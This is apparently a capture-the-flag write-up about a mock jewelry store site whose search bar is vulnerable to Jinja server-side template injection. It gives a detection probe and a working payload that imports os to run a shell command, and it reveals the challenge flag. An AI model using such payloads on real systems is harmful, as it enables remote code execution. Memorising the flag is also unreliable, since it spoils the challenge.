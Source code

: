 # Baby chain shop

## Summary

Flag: `UAD{J1nj4_t3mpl4t1ng}`

Description: Our jewelry store has just launched a public bug bounty, would you be able to report any vulnerability?

## Write-up

We have a simple website:

![Landing](img/landing.png)

There is a search bar, trying multiple injections like SQLi, NoSQLi we find that is vulnerable to SSTI with the payload `{{7*7}}`:

![SSTI](img/ssti.png)

From there we can get command injection with a more elaborated payload:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}
```

![flag](img/flag.png)